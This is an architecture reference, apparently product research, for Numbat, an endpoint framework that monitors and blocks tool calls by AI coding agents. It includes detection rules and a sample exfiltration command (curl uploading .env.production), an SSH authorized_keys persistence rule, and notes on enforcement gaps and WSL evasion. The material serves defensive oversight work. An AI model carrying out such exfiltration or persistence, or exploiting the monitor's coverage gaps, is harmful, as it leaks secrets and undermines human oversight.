


# Architecture Reference: Perplexity Numbat

Numbat is an open-source endpoint security framework designed to provide runtime visibility, policy enforcement, and forensic reconstruction for autonomous AI agents (such as Claude Code, Codex, and OpenClaw) operating on local workstations, IDEs, and servers.

## 1. System Architecture & Core Lifecycle

Numbat operates as a host-local single binary written in Go. It bridges the gap between high-level AI tool calls (e.g., file reads, terminal executions, network mutations) and systemic endpoint instrumentation.

### Architectural Blueprint



## 2. Core Components

Numbat’s internal logic is segregated into discrete operational components located within its `/cmd` and `/internal` trees:

- **Instrumentation Layer (Hooks & Plugins):** Intercepts live execution streams before a tool executes. For example, a `before_tool_call` callback converts a raw browser request or code execution block into an internal event.
- **Normalization Engine:** Flattens disparate agent schemas (like Model Context Protocol fields, JSON logs, or historical artifacts) into a single, highly structured Event Model schema.
- **CEL Evaluation Engine:** Compiles and runs Common Expression Language (CEL) syntax over incoming fields at ultra-low latency, ensuring on-device evaluation occurs in microseconds.
- **Sequence State Manager:** Correlates multiple discrete events inside a single session timeline to catch complex attack paths (e.g., observing a sensitive file read followed immediately by an outbound data egress command).
- **Enforcement Decision Engine:** Determines whether an action matching an active policy signature should proceed (allow) or undergo synchronous pre-action mitigation (deny).

## 3. very high level Capabilities Matrix

| Capability             | Dynamic Mode (Live Capture)                               | Static Mode (Forensic Scan)                                   |
| :--------------------- | :-------------------------------------------------------- | :------------------------------------------------------------ |
| **Ingestion Vectors**  | Synchronous API hooks, OTLP log telemetry                 | Historic session logs, terminal scrollbacks, cached run files |
| **Latency Impact**     | Adds runtime overhead due to blocking evaluations         | Zero runtime impact; execution occurs post-hoc                |
| **Mitigation Options** | Active pre-action interception (deny response execution)  | Non-intrusive alert generation (Findings mapping)             |
| **Data Redaction**     | Strips high-entropy strings and credentials automatically | Masks discovered secrets during offline ingestion             |

## 4. Execution Data Models (NDJSON Specification)

Every operational output is emitted as a structured, versioned Newline-Delimited JSON (NDJSON) entry. Below are technical instances of Numbat's telemetry schemas:

### A. Normalized Live Hook Event

This record type represents an active agent making an outbound network connection.

_(Note: Detailed NDJSON schema examples for normalized live hook events and correlated sequence findings can be accessed directly in the source repository.)_

## 5. Deployment Configurations

Numbat supports three primary execution architectures based on runtime trust requirements:

- **Monitor-Only Telemetry Collection:** Gathers visibility asynchronously without blocking build processes (`numbat hook install --agent codex --emit all`).
- **Local Zero-Trust Enforcement:** Synchronously inspects and blocks high-risk agent actions using explicit policy flags.
- **Fleet Enterprise Ingestion:** Captures local NDJSON streams and forwards them via HTTP/HTTPS network sinks to a central platform.

### How Ingestion via OTLP Works

1. **The Agent Generates Logs:** As the agent performs tasks, it builds OpenTelemetry log records detailing its context, model inputs, and tool usage.
2. **Numbat Ingests the Stream:** Instead of sending those logs to a cloud provider (like Datadog or Honeycomb), the agent or gateway is configured to point its OTLP/HTTP log exporter to Numbat’s local endpoint (e.g., `http://localhost:4318/v1/logs`).
3. **Normalization:** Numbat captures these incoming OTLP logs asynchronously, extracts the attributes, maps them into its unified Event Model, and passes them to the CEL engine.

### Hook vs. OTLP: The Core Difference

- **Hooks (Synchronous / Inline):** Intercepts actions before they happen. This allows Numbat to do pre-action blocking (`enforce: true`).
- **OTLP Telemetry (Asynchronous / Out-of-Band):** Receives data while or right after actions happen. This is used for Live Monitoring and Sequence Tracking. While it cannot block an action in mid-air (because it's async), it is incredibly valuable for catching complex attack chains across components that don't support native hooks.

Once Numbat processes either a Hook or an OTLP log event, it evaluates it, and then writes its own output to local versioned NDJSON files or ships them to a TrackAI central security operations server via a standard HTTP post.

## 6. Comprehensive Numbat Surface-to-Agent Mapping Matrix

| Surface Environment    | Agent / Tool Target              | Underlying LLM Models                   | Numbat Integration Mechanism            | How Numbat Handles It & Capabilities                                                                                                                                                                                                                                                                 |
| :--------------------- | :------------------------------- | :-------------------------------------- | :-------------------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CLI (Command Line)** | **Claude Code**                  | Claude 3.5 Sonnet / Haiku               | **Synchronous Hook** + Artifact Scan    | **Full Control:** Attaches to the terminal execution lifecycle. Intercepts proposed bash commands and file changes. Supports `enforce: true` to kill rogue scripts before they fire. Reads session files post-run.                                                                                   |
| **CLI (Command Line)** | **Gemini CLI**                   | Gemini 1.5 Pro / Flash                  | **Synchronous Hook** + Artifact Scan    | **Full Control:** Maps user-space terminal hooks. Evaluates raw prompts and `tool.execute.before` actions natively via local CEL rules.                                                                                                                                                              |
| **CLI (Command Line)** | **GitHub Copilot CLI**           | OpenAI GPT-4o / Codex                   | **Synchronous Hook**                    | **Active Guardrail:** Intercepts `PermissionRequest` events. If the model generates a destructive one-liner, Numbat intercepts the user prompt approval pipeline to deny it.                                                                                                                         |
| **CLI / Daemon**       | **Aider**                        | BYO Model (OpenAI, Anthropic, DeepSeek) | **Live Hook**                           | **Monitor & Enforce:** Hooks directly into Aider's local git/file modification hooks. Blocks unapproved massive codebase rewrites.                                                                                                                                                                   |
| **IDE Extension**      | **VS Code (GitHub Copilot)**     | GPT-4o / Codex                          | **OTLP/HTTP** (Primary) + User Hook     | **Telemetry Heavy:** IDEs sandbox their internal states. Numbat acts as a local OTLP server (`http://localhost:4318/v1/logs`). Copilot streams telemetry into Numbat, catching background generations, file indexing, and context lookups. Limited user hook file monitoring.                        |
| **IDE Extension**      | **VS Code (Continue / RooCode)** | BYO LLM (Ollama, Anthropic, OpenAI)     | **OTLP Stream**                         | **Audit Trail:** Ingests structured JSON application logs via OTel loop. Feeds the **Sequence State Manager** to evaluate multi-file reading paths. Cannot block mid-flight due to the asynchronous nature of OTel logs.                                                                             |
| **AI-Native IDE**      | **Cursor**                       | Cursor-Agent (GPT-4o / Claude 3.5)      | **Hybrid:** User Hook + Artifact Parser | **Deep Forensic Engine:** Uses local developer profile configuration hooks. Because Cursor saves full session histories to a local SQLite instance, Numbat reads these artifacts sequentially to flag historical data leakage or sandbox escapes.                                                    |
| **AI-Native IDE**      | **Windsurf**                     | Cascade Engine                          | **Live Hook Path**                      | **Monitor-Only:** Attaches to the platform's workspace profile layer. Tracks file edits across active directory tabs.                                                                                                                                                                                |
| **Desktop App**        | **OpenAI Codex Security CLI**    | OpenAI GPT/Codex                        | **Managed Hook** + Artifact Scan        | **Maximum Security Posture:** Uses a trusted global policy via `--managed`. Tracks actions directly at the application boundary and prevents the local model from modifying `authorized_keys` or environment files via strict blocking configurations.                                               |
| **Desktop App**        | **Kilo Code**                    | Custom Local/Cloud LLM                  | **Live Hook (`numbat.ts`)**             | **Active Local Guardrail:** Generates a custom module in Kilo's active global plugin directory. Intercepts `tool.execute.before` events. If Numbat denies the action, the TypeScript module throws a runtime error to halt execution.                                                                |
| **Cloud / Local GUI**  | **OpenHands**                    | Multi-Model Support                     | **Repository Hook** (`hooks.json`)      | **Project-Isolated Guardrail:** Operates via a local `.openhands/hooks.json` mapping. Requires explicit repo path settings during installation (`--settings`). Intercepts `PreToolUse` events to block operations in both desktop sandboxes and cloud runtimes.                                      |
| **AI Gateway / Proxy** | **OpenCode / Team Routers**      | Centralized Model Router                | **OTLP/HTTP Log Receiver**              | **Asynchronous Operations Monitoring:** Gateways have no local OS loop to intercept. Numbat runs `numbat collect` in the background, receiving `tool_decision` log spans pushed from the proxy. Feeds network indicator statistics directly into TrackAI customer's central SIEM via HTTP POST logs. |

### How Numbat Adapts Based on the Mechanism

1. **When using Synchronous Hooks:**  
   Numbat inserts a micro-proxy layer into the agent's plugin folder or callback configuration. When the agent attempts a tool call, execution pauses completely. Numbat runs the data through local CEL rules, checking the request context. If it hits an alert marked `enforce: true`, it immediately sends an explicit kill signal or error code back to the agent harness, cleanly aborting the command. [1] (https://github.com/perplexityai/numbat/blob/main/docs/agent-coverage.md), [2] (https://www.ssdnodes.com/learn/numbat-ai-agent-visibility)

2. **When using OTLP Telemetry (`numbat collect`):**  
   The agent streams structural runtime telemetry to Numbat asynchronously over a local HTTP connection. Because these logs arrive just after or during an action, Numbat cannot prevent a single specific call from finishing. Instead, it processes these inputs to power its Sequence State Manager. This logic tracks temporal relationships across steps—such as identifying when an agent reads a `.env.production` file and immediately opens an external `curl` egress connection to an unknown server—alerting security teams to multi-step compromises. [1] (https://www.perplexity.ai/hub/blog/securing-agents-across-perplexity-s-client-endpoints-with-numbat)

Numbat genuinely provides the implementation for those 50+ declarative YAML rules across its supported agent and platform matrix, but it does so through a clever architectural abstraction. [1] (https://github.com/perplexityai/numbat/blob/main/docs/rules.md), [2] (https://github.com/perplexityai/numbat/blob/main/docs/agent-coverage.md)

Instead of writing custom detection logic for every combination of agent and operating system, Numbat uses a Unified Event Model. This design principle answers exactly how Numbat manages consistent rule execution across Linux, macOS, Windows, and disparate AI tools. [1] (https://github.com/perplexityai/numbat)

## 7. The Secret: The Unified Event Model

Numbat separates where data comes from (the ingestion vector) from how data is judged (the Common Expression Language or CEL rules engine).



Whether an event is grabbed via a live Linux terminal hook, an asynchronous Windows OTLP log stream, or a macOS forensic artifact scan, Numbat's ingestion layer immediately maps it to standard, projection-ready JSON variables (like `event.command`, `event.url`, or `event.project_path`). [1] (https://github.com/perplexityai/numbat/blob/main/docs/rules.md)

The same exact CEL rule file is then evaluated against those normalized variables, regardless of the platform or agent. [1] (https://github.com/perplexityai/numbat/blob/main/docs/rules.md)

### ⚠️ The Catch: Enforcement Coverage Gaps

While Numbat applies the rules intellectually across the entire matrix (meaning it will successfully detect and write a Telemetry Finding to your logs on any OS), its active blocking enforcement (`enforce: true`) is highly constrained by the underlying surface:

1. **Platform Differences (Mac/Linux vs. Native Windows)**
   - **POSIX Environments:** Numbat integrates seamlessly with shell execution behaviors and configuration standards native to macOS and Linux.
   - **Windows Environment:** Native Windows utilizes vendor-defined AppData and user profile paths. If an AI agent running on Windows executes code inside a Windows Subsystem for Linux (WSL) shell, Numbat considers that a completely separate sandbox and requires explicit configuration overrides (like passing `--path`) to track cross-boundary interactions.

2. **Hook vs. OTLP Limits**
   - If Numbat captures the event via a synchronous hook (like Claude Code's terminal executor), setting a rule to `enforce: true` will successfully block the execution by passing a native deny response back to the agent.
   - If Numbat captures the event via OTLP logs or background tracking (like a central team proxy or an IDE extension API), it cannot block. The rule will still run, but it will only emit a retroactive alert log.

## 8. Anatomy of a Numbat Rule (YAML + CEL)

To see how platform independence works in practice, look at a standard rule (e.g., checking for unauthorized persistence):

```yaml
id: persistence.ssh_authorized_keys
version: 1.3
description: "Detects AI agents attempting to inject SSH keys into authorized_keys files"
enabled: true
severity: high
tags:
  - attack.t1098
expr: |
  event.event_type == "file.write" &&
  event.target_path.endsWith("authorized_keys")
```

- **The Logic:** Notice that the CEL expression doesn't care whether the agent is Claude, Codex, or Gemini. It doesn't care if the host path is `/home/user/.ssh/` or `/Users/user/.ssh/`.
- **The Execution:** It simply looks at the normalized `event.target_path` string extracted by Numbat's platform-specific driver.

### Out-of-the-Box Behavior

By default, all 50+ shipped rules are strictly monitor-only (`enforce: false`). They exist to generate an audited timeline of agent activity. If you want a rule to actually act as a gatekeeper, you must explicitly copy the YAML file into an operator policy folder, mark it `enforce: true`, and launch Numbat with the `--enforce` flag pointing to that directory.

## 9. Advanced Capabilities Numbat Supports

### 9.1 Multi-Step Sequence Rules

Multi-step sequence rules are advanced detection signatures that watch for a chain of behaviors over time within a single agent session, rather than looking at a single isolated action.

#### How they work

Instead of evaluating one log entry at a time, Numbat routes incoming telemetry through a Sequence State Manager. This component maintains a memory of past events inside a session. A sequence rule might state: "Trigger a high-severity finding only if Step A (Sensitive File Read) is followed within a specific time window by Step B (Outbound Network Egress)."

An example from the Numbat core is the `chain.secret_read_then_egress` rule:

- **Step 1:** The agent reads a sensitive file (e.g., checking `/workspace/acme-api/.env.production` for credentials).
- **Step 2:** The agent then runs a network tool call (e.g., executing a `curl` data upload to an unapproved external collector).

#### What purpose they serve

They prevent security alert fatigue and detect contextual threats.

- Reading a `.env` file is normal behavior for an AI agent trying to fix a local software bug.
- Sending a `curl` request is normal behavior for an agent checking a public API document.
- However, combining these actions sequentially indicates exfiltration of production credentials. Sequence rules look past individual "valid" tool calls to catch the macro-level malicious intent.

### 9.2 Path Mapping & OS Sandbox Abstractions

Path mapping handles the structural differences between operating systems (macOS, Linux, and Windows) to ensure rules remain universally functional regardless of where the developer is hosting their project.

#### How they work

When an AI agent interacts with a filesystem, the raw paths it uses look completely different depending on the OS:

- **Linux:** `/home/developer/.config/claude/`
- **macOS:** `/Users/developer/Library/Application Support/claude/`
- **Windows:** `C:\Users\developer\AppData\Roaming\claude\`
- **WSL (Windows Subsystem for Linux):** `/mnt/c/Users/developer/...`

Numbat solves this inside its ingestion and parsing libraries by automatically normalizing environmental variations into standardized, absolute paths relative to the active workspace project. It explicitly tracks the `project_path_hash` and matches simple string criteria (like checking if a path `.endsWith("authorized_keys")`) instead of forcing the security team to hardcode full OS paths into every rule.

#### What purpose they serve

They guarantee cross-platform coverage and sandbox visibility.

If an enterprise team has 500 developers—some on MacBooks, some on Windows ThinkPads, and others deploying code inside Linux Docker containers—the security operations team only needs to maintain one universal rule file.

Additionally, by explicitly identifying environment boundaries (like flagging when a tool crosses from native Windows host space into a WSL Linux container), Numbat ensures that agents cannot deliberately evade policy monitoring simply by executing their tasks inside an untracked local subsystem.

## 10. What Numbat Captures Upon a Rule Violation

When a rule is matched, Numbat generates a rich Telemetry Blueprint within its local NDJSON logs. The data it captures is split into four core metadata buckets:

### 10.1 Temporal & Session Identity (The "When" and "Where")

- `timestamp` & `detected_at`: Microsecond-accurate UTC timestamps tracking exactly when the tool call occurred and when the engine matched the rule.
- `session_id`: The unique identifier generated by the AI agent's active execution loop (e.g., `readme-live-sequence-01`). This links multiple tool calls to the exact same conversation or prompt context.
- `run_id`: A unique tracking ID for the specific execution instance, separating individual iterations within a larger agent session.
- `project_path` / `project_path_hash`: The absolute path to the local directory where the agent is executing code, securely obfuscated as a SHA-256 hash when exported to external log targets to preserve developer confidentiality.

### 10.2 Surface & Actor Telemetry (The "Who")

- `source_agent` & `sub_agent`: Explicitly identifies the tool context (e.g., `claude-code`, `codex`, or `openclaw`), along with any sub-modules or skills the agent invoked (e.g., `research`, `executor`).
- `source_type`: Defines the ingestion vector—explicitly marking whether the telemetry was intercepted via a live hook, pushed via an `otel` (OTLP) log packet, or parsed out of a static on-disk session artifact.
- `observed_actor`: Tracks whether the action was driven directly by the AI model (`assistant`) or passed through by a human operator (`user`).

### 10.3 Execution Context & Evidence (The "What")

- `observed_command` / `url` / `content_preview`: The exact arguments the agent attempted to execute (e.g., `curl --data-binary @.env.production https://...`).
- `tool_name` & `tool_call_id`: The specific function requested by the LLM (such as `browser`, `create_file`, or `execute_bash`) matching its internal call identifier.
- `cited_event_ids`: For Multi-Step Sequence Rules, this provides an array of IDs linking back to every historic event that contributed to the final detection, allowing defenders to perform complete forensic reconstructions.

### 10.4 Endpoint Host Infrastructure (The Host Machine)

- **endpoint Metadata Object:** Standardizes host tracking criteria by logging:
  - `hostname`: The target machine's network name.
  - `os` & `arch`: The architecture environment (e.g., `linux` on `arm64`).
  - `username` & `uid`: The system user running the process, ensuring teams can quickly identify if an agent is running with dangerous root/administrator privileges.

## 11. Security Guardrails: Secret Redaction

Even though Numbat captures extensive telemetry, its read-only artifact scanning and hook capture pipelines feature built-in secret redaction.

Normal wire-format outputs never include a raw, unredacted transcript of highly sensitive database strings or API tokens. If an agent tries to copy a private key, the `redacted: true/false` flag tracks whether sensitive values were intercepted, masking high-entropy configurations prior to serialization.

## 12. Rule Implementation, Testing & Enterprise Value

Here is a clear breakdown of how Numbat implements rules, how testing works, and how to capture the underlying product value for TrackAI enterprise wrapper.

### 12.1 Rule Metrics: Implementation & Enforcement Percentages

- **Total Shipped Rules:** Numbat contains 52 built-in rules categorized into 12 core risk areas (such as secrets, exfiltration, integrity, persistence, and sequences).
- **Implementation Status:** 100% of these 52 rules are fully implemented out of the box. They are actively compiled by Numbat's built-in Common Expression Language (CEL) execution engine.
- **Blocking Enforcement Capability:** Approximately 55% to 60% of the rules can support active, synchronous blocking enforcement (`enforce: true`).
- **The Criterion:** A rule can only block an action if that action originates from a Synchronous Pre-Action Hook surface (like terminal command executions in Claude Code or file modifications in Codex).
- **The Inactive Blocking Pool:** The remaining ~40% of rules operate as Asynchronous Detections. These are multi-step sequence rules, retrospective on-disk artifact scans, or out-of-band OTLP log streams. Because Numbat receives this data during or after execution, these rules generate immediate telemetry finding logs but cannot physically block the event mid-air.

### 12.2 Testing and Simulation Framework

Numbat includes built-in test utilities designed specifically for validating behaviors offline without having to trick a live LLM into attacking your environment.

- **Companion Test Files:** Every rule group in the Numbat repository contains native companion YAML test schemas (`rules/<group>/*.test.yaml`). These files contain mock event chains mirroring real-world agent payloads.
- **Local Rule Testing Tool:** Developers can run the `numbat rules test` command. This engine feeds the mock test vectors into the local CEL evaluator, ensuring that code updates or custom rules correctly flag violations and output identical schemas.
- **Simulating Multi-Step Attacks:** For multi-step sequences (e.g., reading a secret key then attempting an external upload), `numbat rules test` holds a bounded sequence window in memory to simulate time-based or step-based transitions. This allows you to verify that step combinations trigger flags while single events pass silently.

### 12.3 Custom Rules: CISO Workspace vs. Raw YAML

In raw open-source Numbat, adding a rule requires an operator to manually type a raw YAML file containing an explicit `expr:` string mapped to a Boolean CEL configuration. They then have to drop it into a local directory and force-reinstall their terminal hooks via the command line.

### The Product Value of an Enterprise Wrapper

Giving a CISO or Security Lead a "Policy UI" that auto-generates these YAML objects is an exceptional product differentiator. Raw open-source tools require engineers to become language experts in Google's CEL syntax—which most corporate CISOs do not have time to learn or debug.

A wrapper turns raw files into an enterprise asset by delivering:

- **A No-Code Guardrail UI:** A control plane provides toggle buttons and dropdown menus (e.g., "Block if AI Agent runs a shell command matching regex X"). The UI instantly compiles the visual logic into valid, error-free Numbat CEL YAMLs behind the scenes.
- **Instant Fleet-Wide Deployment:** In open-source Numbat, if you write a new rule file, you have to manually distribute it to every laptop using external tooling. The product automatically pushes the newly generated YAML across thousands of active endpoint agents simultaneously via encrypted client loop.
- **Safe Simulation Before Rollout:** Before pushing a new blocking rule live, TrackAI UI can leverage Numbat's internal rules test mechanisms to run the rule against historical database of developer telemetry. The product can report back to the CISO: "If you enforce this rule, it will block 0 malicious actions but will disrupt 14 valid developer tasks." This prevents global code deployments from accidentally freezing corporate engineering teams.

Having 52 production-vetted rules ready out of the box means a commercial product provides immediate runtime security value on day one.

1. What Actually Exists in Numbat (The "Managed Scope") Deployment support for Enterprises.

When the documentation talks about "MDM and fleet support," it means Numbat is technically compatible with an MDM rollout because it targets the native machine policy layers built into specific AI agents.
Instead of dropping configuration settings into a local developer’s user home directory (which the developer could easily delete or modify), running numbat hook install --agent <NAME> --managed instructs Numbat to write to root-owned, administrator-controlled configuration locations:
• Claude Code: Writes to /Library/Application Support/ClaudeCode/managed-settings.d/numbat.json (macOS) or /etc/claude-code/managed-settings.d/numbat.json (Linux).
• OpenAI Codex: Writes a machine-wide policy to /etc/codex/requirements.toml and enforces features like allow_managed_hooks_only=true to suppress user-defined bypasses.
• Cursor / Windsurf / Copilot CLI: Automatically targets the administrator-owned global paths (e.g., /etc/cursor/hooks.json or C:\ProgramData\Cursor\hooks.json on Windows) where system-level configuration parameters take precedence over local user extensions.
Staging Support: It also allows administrators to generate these policy files in a staging area (using numbat hook install --managed --settings /staging/path) so they can be bundled up by an external tool.

2. The Gaps (What is Missing for it to be an Enterprise "Product")

While Numbat knows where to place administrative policy files on a host machine, it completely lacks the infrastructure to deliver, update, or manage them across a fleet.
The documentation explicitly notes this constraint:
As outlined in the GitHub Documentation, endpoints remain responsible for binary distribution, target selection, installation re-runs, and credential injection. Additional missing capabilities include central control plane coordination, dynamic policy refreshing, and runtime health validation.

## 13. Numbat Comprehensive Feature & Core Capability Matrix

This matrix consolidates all 21 core capabilities of the Numbat framework, mapped against their underlying technical mechanics and commercial product value.

| #      | Feature / Capability                 | Mechanical Engine Vector                                  | Primary Commercial Product Value for TrackAI                                                                |
| :----- | :----------------------------------- | :-------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------- |
| **1**  | **Dual Active/Passive Ingestion**    | Hooks (`hook install`) & OTLP (`collect`)                 | Allows the wrapper to offer both inline blocking guardrails and broad audit visibility across all tools.    |
| **2**  | **Ultra-Low Latency Execution**      | Host-Local Compiled CEL Logic                             | Prevents security evaluation delays from slowing down the developer's interactive workspace.                |
| **3**  | **Integrated Secret Redaction**      | In-Memory Token & Entropy Masking                         | Guarantees compliance logs don't leak passwords or active production API keys.                              |
| **4**  | **Broad Agent & Surface Matrix**     | 27 Target Profiles Supported                              | Eliminates the need to maintain separate vendors for terminal tools, IDE extensions, or proxies.            |
| **5**  | **Unified Event Normalization**      | Single Abstract JSON Schema Mapping                       | Write a rule once; it automatically runs against Claude, Codex, or customized local gateway nodes.          |
| **6**  | **Multi-Step Dynamic Sequences**     | Bounded Memory Sequence State Manager                     | Detects subtle, coordinated threat paths (e.g., Reading a config file -> Exfiltrating data via curl).       |
| **7**  | **Universal Path Abstraction**       | Cross-OS Directory String Standardization                 | Standardizes complex file paths seamlessly across Linux, macOS, and Windows system runtimes.                |
| **8**  | **52 Production-Ready Rules**        | Pre-Compiled Risk Catalogs & Mock Tests                   | Delivers real threat detection value right out of the box on day one of deployment.                         |
| **9**  | **Contextual Metadata Logging**      | Detailed NDJSON `event`, `finding`, `enforcement` objects | Gives incident response teams complete forensic timelines (Who, What, When, Where).                         |
| **10** | **Machine Policy Configuration**     | System-level admin paths (`--managed`)                    | Allows a TrackAI wrapper to lock down settings using system permissions that developers can't alter.        |
| **11** | **At-Least-Once Local Shipping**     | Single-binary local file tailing (`ship`)                 | Ensures auditing continuity and zero log loss, even during network disconnects.                             |
| **12** | **MCP Integration Mapping**          | Model Context Protocol Payload Extraction                 | Future-proofs the product for next-gen agents built on open interoperability models.                        |
| **13** | **Fail-Closed Execution Safeguard**  | Strict 10-Second Hook Target Deadlines                    | Prevents an agent from bypassing security controls if the workstation engine hangs.                         |
| **14** | **Content Access Control**           | Gated `allowConversationAccess` toggle                    | Allows enterprise customers to isolate tool calls while blocking raw prompt-content leaks.                  |
| **15** | **Idempotent Deployment Loop**       | Self-Reconciling Installation Subsystem                   | Allows mass deployment software (like Jamf/Intune) to run update cadences safely without code drift.        |
| **16** | **Policy Isolation Topology**        | Dynamic Rule Concatenation Logic                          | Keeps core product code cleanly separated from custom, user-defined rules.                                  |
| **17** | **Authenticated Data Transport**     | Environment-driven HMAC signing tokens                    | Provides basic authentication for network traffic from the client directly to the logging server.           |
| **18** | **Egress Volumetric Guardrail**      | 64 MiB Payload Extraction Ceiling                         | Protects enterprise security infrastructure from getting overwhelmed by massive log records.                |
| **19** | **Targeted Policy Hot-Swaps**        | Direct ID-Based Rule Overwriting                          | Allows you to convert specific rules from monitor-only to strict blocking instantly with zero code changes. |
| **20** | **Static Dependency Free Footprint** | Static pure-Go compilation profile                        | Guarantees system stability by eliminating conflicts with local OS dynamic libraries.                       |
| **21** | **Bandwidth Optimization Mode**      | Lean indicator aggregation tracking (`--emit indicators`) | Dramatically cuts network overhead when users work remotely or over slow connections.                       |
